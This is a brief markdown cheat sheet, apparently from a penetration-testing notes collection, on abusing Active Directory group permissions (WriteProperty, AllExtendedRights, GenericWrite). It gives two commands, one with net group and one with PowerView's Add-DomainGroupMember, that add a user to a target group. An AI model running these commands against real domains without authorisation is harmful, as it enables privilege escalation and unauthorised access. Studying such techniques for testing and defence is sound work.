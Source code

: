 # DACL Attacks on a group

## 1) WriteProperty/AllExtendedRights/GenericWrite Self

With one of these rights we can add a new member to the group

    net group <target_group> user1 /add

##### With PowerView

    Add-DomainGroupMember -Identity '<target_group>' -Members 'user1'
